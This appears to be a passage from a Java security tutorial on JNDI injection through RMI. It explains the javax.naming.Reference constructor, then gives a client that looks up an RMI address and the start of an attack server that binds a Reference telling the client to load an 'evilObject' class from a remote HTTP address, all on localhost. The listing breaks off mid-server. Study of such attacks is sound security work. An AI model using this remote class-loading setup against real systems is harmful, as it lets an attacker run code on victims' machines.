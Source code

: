 Let’s take a look at the constructor method in `javax.naming.Reference`:
 - className: The class name used when loading remotely.
 - classFactory: The name of the class that needs to be instantiated in the loaded class.
 - classFactoryLocation: The address that provides classes data can be file/ftp/http and other protocols.

```java
public Reference(String className, String factory, String factoryLocation) {
    this(className);
    classFactory = factory;
    classFactoryLocation = factoryLocation;
}
```

### Sample Code

 - JNDIClient.java

```java
package org.h3rmesk1t.jndi.RMIAttack;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/5 11:12 am
 */
public class JNDIClient {

    public static void main(String[] args) throws NamingException {

        String url = "rmi://127.0.0.1:1099/reference";
        Context ctx = new InitialContext();
        ctx.lookup(url);
    }
}
```

 - JNDIServer.java

```java
package org.h3rmesk1t.jndi.RMIAttack;

import com.sun.jndi.rmi.registry.ReferenceWrapper;

import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/2/7 6:09 am
 */
public class JNDIServer {

    public static void main(String[] args) throws Exception {

        String className = "evilObject";
        String factoryName = "evilObject";
        String factoryLocationURL = "http://127.0.0.1:4444/";

        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference(className, factoryName, factoryLocationURL);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        System.out.println("Binding 'referenceWrapper' to 'rmi://127.0.0.1:1099/reference'");
```